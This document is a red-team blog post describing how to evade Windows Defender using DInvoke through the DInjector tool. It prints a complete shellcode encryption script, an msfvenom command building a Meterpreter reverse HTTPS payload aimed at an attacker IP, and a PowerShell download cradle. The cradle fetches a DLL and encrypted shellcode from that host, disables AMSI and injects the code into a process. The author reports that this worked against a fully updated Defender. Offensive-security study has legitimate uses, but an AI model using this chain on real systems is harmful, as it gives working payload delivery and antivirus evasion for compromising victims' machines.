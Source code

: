 ```yaml
---
layout: single
title: "Making use of DInvoke as a better Antivirus Evasion practice, avoiding PInvoke & API Hooks"
date: 2021-10-26
tags:  
  - windows
  - dinvoke
  - windows-defender
author_profile: true
---
```

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/defender.webp)

Hello back fellow red teamers!!  

Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to upgrade my own skills on red teaming.

In this article I'm going to explain how you can make use of Dynamic Invocation instead of PInvoke for a less suspicios execution.

First let's take a view at this repository :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)

## What is DInvoke?
 
>*DInvoke is a dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.
It helps you use unmanaged code from C# while avoiding suspicious P/Invokes. Rather than statically importing API calls with PInvoke, you may use Dynamic Invocation to load the DLL at runtime and call the function using a pointer to its location in memory. You may call arbitrary unmanaged code from memory (while passing parameters), allowing you to bypass API hooking in a variety of ways and execute post-exploitation payloads reflectively.*

Rather than using PInvoke to import the API calls that we want to use, we load a DLL into memory manually. This can be done using whatever mechanism you would prefer. Then, we get a pointer to a function in that DLL. We may call that function from the pointer while passing in our parameters.

By leveraging this dynamic loading API rather than the static loading API that sits behind PInvoke, you avoid directly importing suspicious API calls into your .NET Assembly.

To show that little proof of concept of how it is done at a concrete target I will use [DInjector](https://github.com/snovvcrash/DInjector)

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img1.png)

DInjector is a tool which is fully ported on `DInvoke` APIs and simulates the concept of executing code through dynamic invocatuion in easier steps for people like me who are generally dumb.

Below is shown the content of `encrypter.py` which takes a raw shellcode payload and encodes it using either `AES` or `XOR` up to your preference.


```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

>*OK? WHATS NEXT?*

Of course I need to compile the ``DInjector`` project which will output the `.DLL` file that is going to be loaded into the memory in order to call the shellcode.

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Encryping the shellcode and setting up a listener which will serve the files that we need to load on the target machine : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)

Before executing let's make sure Windows Defender is up to date.

![img3](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img3.png)

To load the DLL into the memory and call the shellcode you can use ``cradle.ps1`` which is part of the ``DInjector`` repo.

```powershell
# MODULE
$M = "currentthread"

# LHOST
$H = "192.168.88.142"

# AMSI
$A = "true"

# DLL
$D = "DInjector.dll"

# SHELLCODE
$S = "enc"

# PASSWORD
$P = "hahaWOW!!encrypt"

# PROCESS
$N = "notepad"

# IMAGE
$I = "C:\Windows\System32\svchost.exe"

# --------------------------------------------------------------------

$methods = @("remotethread", "remotethreadsuspended")
if ($methods.Contains($M)) {
    $N = (Start-Process -WindowStyle Hidden -PassThru $N).Id
}

$cmd = "$M /am51:$A /sc:http://$H/$S /password:$P /pid:$N /image:$I"

$data = (IWR -UseBasicParsing "http://$H/$D").Content
$assem = [System.Reflection.Assembly]::Load($data)

$flags = [Reflection.BindingFlags] "NonPublic,Static"

$class = $assem.GetType("DInjector.Detonator", $flags)
$entry = $class.GetMethod("Boom", $flags)

$entry.Invoke($null, (, $cmd.Split(" ")))
```

Clean execution , no trigger of the Antivirus and a functional meterpreter session!  
It succesfully beat a fully updated Windows Defender, I was surprised!

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img4.png)

### References

Most of the ``DInvoke`` concept explaination paragraphs are based on [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
